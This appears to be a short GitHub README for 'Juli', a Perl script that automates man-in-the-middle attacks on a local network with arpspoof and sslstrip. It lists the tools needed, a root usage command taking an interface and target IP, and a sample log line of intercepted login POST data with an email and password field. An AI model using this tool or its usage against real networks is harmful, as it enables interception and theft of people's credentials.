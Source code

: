 # Juli
 A simple automated perl script for MiTM ( man-in-the-middle ) attacks.
 I created it this morning just to pass some time :)

#### Requirements:
* Linux ( I tested it on Ubuntu 14.04 LTS )
* Perl
* sslstrip https://github.com/moxie0/sslstrip
* arpsoof ( from dsniff can be found here http://www.monkey.org/~dugsong/dsniff/ )

#### Usage:
* Script must be runned as a root user
* sudo juli.pl interface targetip

* Logs will be saved on Juliscript.log
* and they will loke like this
* 2015-01-19 12:38:24,482 SECURE POST Data (server.com):
charset_test=%E2%82%AC%2C%C2%B4%2C%E2%82%AC%2C%C2%B4%2C%E6%B0%B4%2C%D0%94%2C%D0%84&locale=en_US&email=user%40email.com&pass=password&charset_test=%E2%82%AC%2C%C2%B4%2C%E2%82%AC%2C%C2%B4%2C%E6%B0%B4%2C%D0%94%2C%D0%84&lsd=H2cF2

 For more information about this script check the blog post

 I think i have more to do latter.
